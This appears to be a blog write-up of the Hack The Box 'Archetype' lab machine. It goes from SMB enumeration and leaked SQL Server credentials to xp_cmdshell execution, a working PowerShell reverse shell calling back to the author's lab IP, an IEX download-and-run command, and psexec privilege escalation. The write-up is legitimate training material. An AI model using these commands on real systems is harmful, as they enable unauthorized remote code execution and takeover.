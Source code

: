 ```yaml
---
layout: post
title: "[Hack the Box] Archetype"
categories: Write-up
---
```

```bash
[*] environment : Kali Linux 19.04
[*] target IP : 10.10.10.27 
```

**Please hack the machine with Kali Linux 19.04. No 20.04. plsss**

Recently, I registered "Hack The Box" site for studying real hacking. Starting Point is the tutorial problem.



## Port scanning

First we scan the port of target IP, 10.10.10.27. We use `nmap` for port scanning.

**Nmap**(Network Mapper) is network exploration tool and security / port scanner. Nmap uses raw IP packets in novel ways to determine what hosts are available on the network, what services those hosts are offering, what operating systems they are running, etc.

For example, if unnecessary port is open, we can use it for exploit.

```bash
$ nmap -sC -sV 10.10.10.27
```

- `-sC` : equivalent to --script=default
- `-sV` : Probe open ports to determine service/version info

![image](https://user-images.githubusercontent.com/64528476/89916173-48700d80-dc32-11ea-990f-12c948d2f142.png)

We can see that Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.



**SMB**(Server Message Block) is a communication protocol for providing shared access to files, printers, and serial ports between nodes on a network.

We use `smbclient` to list available shares in SMB.

```bash
$ smbclient -N -L //10.10.10.27/
```

- `-N` : No password. If service does not have password, we can access.
- `-L` : Look at what services are available on a server.

![image](https://user-images.githubusercontent.com/64528476/89918597-32178100-dc35-11ea-95ce-7149f8decaea.png)



I tried to access all folder and succeed to get in the backups folder.

```bash
$ smbclient -N //10.10.10.27/backups
```

There are `prod.dtsConfig` file, so I download to my local.

![image](https://user-images.githubusercontent.com/64528476/89919630-7bb49b80-dc36-11ea-9938-5684eb3164e2.png)

**A DTSCONFIG file** is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages.

<img src="https://user-images.githubusercontent.com/64528476/89996423-b9acd080-dcc5-11ea-8cbd-53198ff092c6.png" alt="image"/>

We can some password! We should try to connect SQL Server. I used [Impacket](https://github.com/SecureAuthCorp/impacket)'s `mssqlclient.py`  to connect server.

![image](https://user-images.githubusercontent.com/64528476/90032938-dfec6380-dcf9-11ea-91b9-0cef48622433.png)

Succeed to connect Server! I can indicate whether a SQL Server login is a member of the specified server role by `IS_SRVROLEMEMBER` function. [IS_SRVROLEMEMBER (Transact-SQL)](https://docs.microsoft.com/ko-kr/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)

![image](https://user-images.githubusercontent.com/64528476/90039601-d535cc80-dd01-11ea-9e92-bb05b15ffb8a.png)

It means this account is a member of 'sysadmin'. We have sysadmin privileges! WOW. We'll activate `xp_cmdshell` for RCE(Remote Code Execution). 

**xp_cmdshell** is the function for executing OS command in MSSQL.

Let's activate `xp_cmdshell`.

```mssql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

Now we can input the OS command.

![image](https://user-images.githubusercontent.com/64528476/90041610-8178b280-dd04-11ea-800d-228cd0952eae.png)

<br>
Save the Powershell reverse shell as `shell.ps1`. **Someday I'll explain Reverse shell.**

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.14",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

`10.10.14.14` is my IP in HackTheBox. (Check with `ifconfig`)


<br>
### Our Plan

![image](https://user-images.githubusercontent.com/64528476/90042813-25af2900-dd06-11ea-89d4-29173006e165.png)

Source : https://klonic.tistory.com/138?category=899632

1. In MSSQL Server, request `shell.ps1` by using `xp_cmdshell`.

2. Return `shell.ps1` to MSSQL Server.

3. By `shell.ps1`, MSSQL Server connected by netcat.



Stand up a mini webserver in order to host the file.

```bash
$ python3 -m http.server 80 --bind 10.10.14.14
```

Stand up a netcat listener on port 443.

```bash
$ nc -lvnp 443
```

- `-l` : listen mode, for inbound connects.
- `-v` : get more information
- `-n` : numeric-only IP addresses, no DNS
- `-p` : port number



In MSSQL, download `shell.ps1` from my ip and execute that script! We GET THE SHELL!!

```mssql
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.14/shell.ps1\");" 
```

![image](https://user-images.githubusercontent.com/64528476/90046142-036bda00-dd0b-11ea-91fc-09373b048a73.png)



I can find the user flag in Desktop.

![image](https://user-images.githubusercontent.com/64528476/90046919-1632de80-dd0c-11ea-8105-909210824ea7.png)

<br>


I found the access log in here.

![image](https://user-images.githubusercontent.com/64528476/90047351-bd177a80-dd0c-11ea-8381-58b5408e9f68.png)

We get the password of administrator! We can use Impacket's psexec.py to gain a privileged shell.

![image](https://user-images.githubusercontent.com/64528476/90047992-ca813480-dd0d-11ea-8d5c-21bf13df9761.png)

I found the root flag in Desktop.

![image](https://user-images.githubusercontent.com/64528476/90048185-1fbd4600-dd0e-11ea-8820-cdeb39b8a127.png)

<br>


Tutorial is f**king hard..